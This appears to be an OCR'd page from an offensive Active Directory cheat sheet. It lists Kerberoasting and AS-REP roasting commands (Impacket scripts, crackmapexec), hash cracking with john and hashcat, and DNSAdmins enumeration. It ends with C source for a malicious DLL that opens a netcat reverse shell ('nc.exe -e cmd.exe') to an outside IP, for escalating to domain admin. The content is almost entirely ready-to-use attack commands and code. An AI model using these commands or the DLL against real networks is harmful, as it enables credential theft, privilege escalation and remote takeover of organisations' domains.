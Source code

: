 ```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

> using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec ldap $target -u $user -p $password --kerberoasting kerberoastable.txt --kdcHost $kdc
```

_crack the hash :_

```
# using JTR :
john --format=krb5tgs spn.txt --wordlist=wordlist.txt
# using hashcat :
hashcat -m 13100 -a 0 spn.txt wordlist.txt --force
```

#### ASREPRoasting

**Enumerate asreproastable user**

```
Get-DomainUser -PreauthNotRequired | select name
```

```
GetNPUsers.py -format hashcat -outputfile ASREProastables.txt -dc-ip $kdc '$domain/$user:$password' -request
```

_cracking the hash :_

`hashcat -m 18200 -a 0 hash wordlist.txt --force`

#### DNSAdmin

> Enumerate users in this group :

```
# METHOD 1
Get-NetGroupMember -GroupName "DNSAdmins"
# METHOD 2
Get-ADGroupMember -Identity DNSAdmins
```

_This attack consists of injecting a malicious arbitrary DLL and restarting the dns.exe service, since the DC serves as a DNS service, we can elevate our privileges to a DA._

> DLL File :

```
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.51 5555");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```